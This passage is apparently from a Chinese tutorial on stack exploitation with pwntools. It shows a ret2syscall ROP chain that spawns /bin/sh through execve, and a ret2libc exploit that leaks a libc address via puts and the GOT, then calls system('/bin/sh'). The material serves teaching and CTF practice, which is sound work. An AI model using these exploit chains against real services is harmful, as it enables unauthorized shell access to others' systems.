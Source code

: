 ```python
    rdi, execve,          // 将 rdi 设置为 execve 的系统调用号
    setrax,               // 将 rax 的值设置为 rdi 指向的值

    //    rbx  rbp  r12  r13  r14  r15
    csu1, 0,   0,   bss, 0,   0,   bss+8,
    csu2
])

s.recvuntil("Input: ")
s.sendline(payload)
s.sendline(b"/bin/sh\0"+p64(syscall))
s.interactive()
```

在这里，pwntools 提供的 `ELF.plt` 函数非常有用，可以帮助我们寻找程序中出现过的函数的地址，使代码更容易理解。

## ret2libc

实际上，构造 ret2syscall 通常是十分繁琐复杂的。既然大部分程序都会使用 libc，那么我们完全可以直接利用 libc 中的 `system` 函数和 `/bin/sh` 字段。

因为 libc 开启了地址随机化，所以需要首先泄漏出 libc 的基址，然后通过对应版本的 libc 计算偏移来利用 libc 中的各种参数和函数。

```python
payload1 = flat([
    b'\0'*0x28,
    # 泄漏 got 表
    rdi, elf.got.read,
    elf.plt.puts,
    # 重新执行 main 函数以继续利用 read 函数
    elf.sym.main
])

```

`u64()` 接收一个 8 字节字符序列并解包为对应的地址。而地址的高位一定是 \0，例如 0x00007f706a508fc0，输出时会被 puts 截断。所以可以保证 `recvline()` 得到的字符序列去掉行尾 \n 后一定是 8 字节以内的。

最后使用 `ljust(8, b"\0"))` 向高位补齐 \0 即可得到的地址是真实的 read 地址，减去 read 在 libc 中的偏移量即可得到 libc 基址。

```python
libc.address = u64(io.recvline()[:-1].ljust(8, b"\0")) - libc.sym.read

payload2 = flat([
    b'\0'*0x28,
    # system 函数中有使用到 movups xmmword 相关汇编指令，需要对栈进行对齐
    # 这里 rdi + 1 是一个 retn 语句，根据 rop 链的特性，可以返回到自己
    # 从而让栈多了一字节，实现对齐操作（另见栈对齐）
    rdi + 1,
    # libc.search 搜索 elf 文件中的文本，返回的是一个迭代器
    # 使用 next() 得到第一个 /bin/sh 所在的地址
    rdi, next(libc.search(b'/bin/sh')),
    # 当设置了 libc.address 后，plt, got, sym 的地址均会自动更新
    libc.sym.system
])
```

